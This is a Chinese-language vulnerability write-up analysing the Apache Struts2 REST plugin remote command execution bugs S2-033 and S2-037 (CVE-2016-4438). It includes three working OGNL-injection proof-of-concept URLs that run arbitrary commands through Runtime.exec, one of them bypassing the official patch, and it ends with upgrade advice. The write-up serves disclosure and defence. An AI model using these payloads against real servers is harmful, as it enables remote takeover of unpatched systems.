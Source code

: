 # PKAV 发现 Struts2 最新远程命令执行漏洞（S2-037）

0x00 前言
=======

* * *

刚过完儿童节回来发现struts2 出了S033，于是放下手中的棒棒糖赶紧分析一下。

![](http://drops.javaweb.org/uploads/images/d25a2c0638caf52bb1ebfafe0f7fd6ea061dbe2a.jpg)

0x01 S2-033 漏洞回顾
================

* * *

先来回顾一下S033

根据官方描述

![](http://drops.javaweb.org/uploads/images/1bd3a812084b0eb21e32b26c79bd191470f735bc.jpg)

很明显有两个关键点：第一个是REST Plugin,另一个是Dynamic Method Invocation is enabled.（也就是开启动态方法执行），看到这里需要满足两个条件，感觉有点鸡肋啊……

直接下载回来源代码调试，载入官方的演示包struts2-rest-showcase.war，我们先随便访问一个连接`/struts2-rest-showcase/orders/1`,很快定位到关键代码

Rest-plujin包里面的`org.apache.struts2.rest.RestActionMapper`

![](http://drops.javaweb.org/uploads/images/6cbe5959f1833febf6889c4c4e344d583b708de0.jpg)

首先要过第一关：dropExtension,这个方法会检查后缀名

![](http://drops.javaweb.org/uploads/images/823a00f9238d847cb4a1f3c6b6d8c76b0b4eaa16.jpg)

其中extensions的值来自配置文件struts-plugin.xml，默认是：

![](http://drops.javaweb.org/uploads/images/5745bb3ce9fece5f0b4bffd121a648ee8ec695ad.jpg)

因此要想通过检查我们需要构造一个.xhtml、.xml或者.json结尾的URL，或者没有后缀直接是xx/xx,这就不能使用”.”这显然是不行的。

继续往下调试：

![](http://drops.javaweb.org/uploads/images/99b913b2dbb2ef3600acdc4a2d00f470d52e9946.jpg)

就是说如果刚才的链接里面出现了!就进入下面的流程直接得到一个!后面的值，然后没有过滤直接放在了mapping里面

构造链接：`/struts2-rest-showcase281/orders/3/1!{xxx}`

![](http://drops.javaweb.org/uploads/images/4f3df83d85e58d8f0b445662c3ab91d5646e36ea.jpg)

在加上前面有一个allowDynamicMethodCalls的判断，几乎可以肯定漏洞点就是在这儿,继续往下走，最终method会进入到，com.opensymphony.xwork2.DefaultActionInvocation类的invokeAction方法，如下图

![](http://drops.javaweb.org/uploads/images/adf0c6531d25c22c5f26bab6324879be988aab59.jpg)

我们看到methodName直接进入到了ognlUtil.getValue方法，对struts2历史漏洞有点熟悉的同学都知道，这个就是最终导致代码执行的地方。不多说，直接上POC：

```
http://127.0.0.1:8888/struts2-rest-showcase/orders/3!%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec(%23parameters.cmd),index.xhtml?cmd=calc

```

![](http://drops.javaweb.org/uploads/images/60de4e60cfd698c2243064c7fc6456cd76f8cb41.jpg)

0x02 绕过动态方法执行的限制
================

* * *

但是如果真的只是这样这个漏洞真的是比较鸡肋的，因为动态方法在这里默认是不开启的，那我们接着分析，有没有可能不用开动态方法都可以执行任意代码了，答案是肯定的。这个地方能不能代码执行主要是这个地方的限制

![](http://drops.javaweb.org/uploads/images/4a139730ac3a94d0fa4bbb41db5342b0516cfd59.jpg)

其实只要我们继续往下走，会发现其他地方也会mapping.setMethod代码如下

![](http://drops.javaweb.org/uploads/images/76a4fecbd3bebbae23b69591e06a2f72850b66ae.jpg)

其实无非就是：

```
http://127.0.0.1:8888/struts2-rest-showcase/orders/3/methodName

```

这样构造就不需要动态方法执行了，上POC：

```
http://127.0.0.1:8888/struts2-rest-showcase/orders/3/%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec(%23parameters.cmd),index.xhtml?cmd=calc

```

这个算其实已经算是一个0day了，这个可以绕过了动态方法执行的限制。但是这还不够，于是我马上找来了最新官方声称漏洞修复的2.3.281、2.3.20.3 and 2.3.24.3，同样的代码却报错了

![](http://drops.javaweb.org/uploads/images/a67168580f1b728192c1ba9e8507abb462440457.jpg)

难道官方是这样修复的，改了检查方法执行的方法checkEnableEvalExpression，这个方法是在request.xx(x)这种代码执行的方式后加入的判断，主要是为了杜绝参数名上面的代码执行，不过好在这个地方我们不需要这种方式执行代码。经过研究我还是通过三目运算符绕过了这个检测，POC：

```
http://127.0.0.1:8888/struts2-rest-showcase281/orders/3/(%23mem=%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS)%3f@java.lang.Runtime@getRuntime().exec(%23parameters.cmd):index.xhtml?cmd=calc

```

![](http://drops.javaweb.org/uploads/images/c4b3bb07b0e7af0955ce3d3ec7a7581aee032d7c.jpg)

6月3号的时候我给struts2官方提交了这个新的高危漏洞(CVE编号CVE-2016-4438)，影响所有使用了REST插件的用户，无需要开启动态方法执行（不包括struts 2.5）,此后的几天网上不断有关于s2-033的分析与绕过出来，但是他们大都错误的认为需要开启动态方法执行才能触发漏洞，其实并不需要。正如官方回复这个漏洞说的

![](http://drops.javaweb.org/uploads/images/562bf4c3b61bb43fcef9fdca8e6ecae76e0553a9.jpg)

去掉了with ! operator when Dynamic Method Invocation is enabled这句话，因此这个漏洞影响更为广泛。

0x03 修复建议
=========

* * *

在上一个版本里面也是method出的问题，当时是加入了cleanupActionName方法进行过滤，如果这个地方要修复，也可以加入这个方法过滤一下即可。更新至官方struts 2.3.29

**在线检测：**[http://www.pkav.net/tool/struts2/index.php](http://www.pkav.net/tool/struts2/index.php)

**参考：**https://cwiki.apache.org/confluence/display/WW/S2-037